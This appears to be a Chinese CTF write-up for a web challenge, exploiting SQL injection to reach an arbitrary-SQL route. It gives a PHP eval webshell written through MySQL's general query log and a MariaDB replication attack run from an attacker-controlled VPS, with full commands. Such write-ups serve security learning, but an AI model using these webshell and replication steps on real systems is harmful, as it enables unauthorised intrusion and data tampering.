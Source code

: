 ![](https://cdn.nlark.com/yuque/0/2023/png/35980243/1686388677662-1e6dee75-cce4-4b39-8760-c8c2ab35a8db.png#averageHue=%232e2e2e&clientId=u837ff099-412b-4&from=paste&id=u928e2737&originHeight=587&originWidth=1285&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u84ef4f80-1efb-49d8-aaa7-34f03f09178&title=)
### Confronting robot
myname存在sql注入点
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1686371387984-429d44b6-a579-4206-907b-de246fcb8782.png#averageHue=%231b1b1b&clientId=u1d842e86-99e1-4&from=paste&height=208&id=u141d77b6&originHeight=208&originWidth=468&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24829&status=done&style=none&taskId=u519f6bb1-269e-4219-a924-fb6d441626e&title=&width=468)
![](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689314897432-050eee59-2461-4fef-ad63-26ec5c32c886.png#averageHue=%23242731&clientId=u6b8027cc-70f2-4&from=paste&id=u7cb65f4a&originHeight=768&originWidth=1080&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u8e12babe-e801-4b7e-a2fc-0ecfbfb20aa&title=)
得到路由/sEcR@t_n@Bodyknow.php，可直接执行sql
```
select group_concat(table_name) from information_schema.tables where table_schema = database()
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1686388074219-2b8d725f-dee4-4f60-ad39-17ee2a3c1e6d.png#averageHue=%2398986c&clientId=u837ff099-412b-4&from=paste&height=399&id=u30c4a4e7&originHeight=399&originWidth=1276&originalType=binary&ratio=1&rotation=0&showTitle=false&size=804327&status=done&style=none&taskId=u8378373f-dbaa-4400-8b0a-c93444c51e0&title=&width=1276)
#### 思路1 日志写马
开启全局的通用查询日志之后直接日志写马导致WEBSHELL
```
set global general_log='on'

set global general_log_file='/var/www/html/sEcR@t_n@Bodyknow.php'
```
然后直接select记录一次马即可shell
```
select "<?php eval($_POST['pass']);?>";
```
蚁剑连接game.php得到flag
#### 思路2 主从复制
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689319393860-977c171d-338a-46b4-95dc-8c3d240d860d.png#averageHue=%23a9a770&clientId=u6b8027cc-70f2-4&from=paste&height=830&id=u7af36d74&originHeight=830&originWidth=534&originalType=binary&ratio=1&rotation=0&showTitle=false&size=485570&status=done&style=none&taskId=ud300b63f-d7b8-412c-aeff-abf0a63f4ef&title=&width=534)
无法直接insert数据，采取主从复制的方法
查看数据库版本：
```
select version();
```
在自己vps上起一个相同版本的mariadb，修改默认配置文件允许远程访问并启用二进制日志
```
vim /etc/mysql/my.conf
server-id = 1 
log_bin = /var/log/mysql/mariadb-bin

service mysql restart
```
自己的vps作为主，题目环境作为从
主服务器执行
```
CREATE USER 'atest'@'%' IDENTIFIED BY 'testtest';
grant replication slave on . to 'atest'@'%';
flush privileges;

# 复制从服务器上的数据结构
CREATE DATABASE IF NOT EXISTS game_data;
use game_data
CREATE TABLE IF NOT EXISTS game ( round int(20) , choice varchar(256) ) ;

# 记录file和position
show master status;
# mysql-bin.000001 1376
```
从服务器执行
```
CHANGE MASTER TO MASTER_HOST='主服务器ip', MASTER_USER='atest',
MASTER_PASSWORD='testtest', MASTER_LOG_FILE='mariadb-bin.000001(记录的值)',
MASTER_LOG_POS=1365(记录的值);
start slave;
show slave status
# 显示连接成功
```